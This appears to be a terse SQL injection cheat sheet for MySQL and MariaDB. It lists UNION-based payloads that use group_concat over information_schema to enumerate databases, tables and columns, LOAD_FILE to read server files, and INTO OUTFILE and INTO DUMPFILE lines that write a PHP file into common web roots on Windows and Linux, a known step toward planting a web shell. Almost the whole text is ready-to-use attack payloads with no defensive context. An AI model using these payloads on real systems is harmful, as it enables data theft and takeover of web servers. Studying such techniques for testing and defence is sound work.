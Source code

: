 # SQLi concat multiple values into one field rows mysql mariadb
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

# SQLi union injection in mysql and mariadb
# SQLi mysql mariadb information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`

# read or write files with mysql MariaDB database or SQLi
## read
`LOAD_FILE('')`
## write
at the end of the query
`INTO OUTFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO OUTFILE '/var/www/html/test.php'`
`INTO DUMPFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO DUMPFILE '/var/www/html/test.php'`

